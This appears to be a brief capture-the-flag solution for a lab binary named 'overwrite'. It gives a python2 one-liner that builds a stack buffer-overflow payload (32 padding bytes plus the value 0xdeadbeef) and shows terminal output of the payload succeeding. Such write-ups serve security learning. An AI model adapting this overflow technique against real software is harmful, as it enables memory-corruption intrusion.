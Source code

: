 ### SOLVE
// Create payload
```shell
[padding + compare value]
python2 -c "print('A' * 32 + '\xef\xbe\xad\xde')" > payload
``` 

// Run payload
```shell
└─$ ./overwrite < payload                                      
yes? good job!!
deadbeef
```
// Other way to run payload
```shell
└─$ python2 -c "print('A' * 32 + '\xef\xbe\xad\xde')" | ./overwrite 
yes? good job!!
deadbeef
```